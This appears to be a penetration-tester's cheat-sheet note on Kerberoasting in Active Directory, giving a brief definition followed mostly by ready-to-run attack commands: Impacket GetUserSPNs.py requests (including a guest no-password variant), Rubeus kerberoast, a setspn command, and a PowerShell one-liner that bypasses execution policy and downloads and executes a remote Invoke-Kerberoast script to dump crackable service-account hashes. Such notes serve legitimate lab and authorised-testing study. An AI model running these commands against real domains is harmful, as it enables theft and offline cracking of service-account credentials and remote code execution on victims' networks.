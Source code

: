 **Kerberoasting** is an attack method used in Active Directory environments where an attacker targets service accounts. It works by requesting and then cracking the service account’s Kerberos ticket (TGS—Ticket Granting Service). E.g MySQL, HTTP, FTP.... etc

![[Pasted image 20240726224839.png]]

The attack:

```bash
GetUserSPNs.py domain.local/USER:PASSWORD@x.x.x.xP {-dc-ip} x.x.x.x -request -outputfile kerb.hashcat
```

If you have guest access with no password, and you have a list of users, this attack might work:

```bash
GetUserSPNs.py domain.local/guest -usersfile users.txt -request -outputfile kerb.hashcat -dc-ip x.x.x.x -no-pass
```

Kerberoasting (from computer on the domain):
```powershell
.\Rubeus.exe kerberoast /nowrap
```

One liner from a domain connected Windows machine:

```bash
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

Create an SPN:

```bash
setspn -s HTTP/iis.mylab.local mylab\svc_iis
```



